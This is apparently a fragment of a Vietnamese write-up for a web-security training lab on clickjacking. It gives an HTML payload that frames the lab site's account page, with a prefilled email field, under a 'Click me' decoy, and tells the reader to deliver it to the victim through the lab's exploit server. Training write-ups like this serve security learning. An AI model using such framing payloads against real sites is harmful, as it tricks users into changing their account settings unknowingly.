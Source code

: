 ```html
<div>Click me</div>
<iframe src="https://0a0a00d70443b778c0534710006b0058.web-security-academy.net/my-account?email=a@a.a" sandbox="allow-forms"></iframe>
```

![Untitled](writeup_media/Untitled%2024.png)

Copy paste và store vào Exploit server rồi gửi cho victim để hoàn thành lab

![Untitled](writeup_media/Untitled%2025.png)

---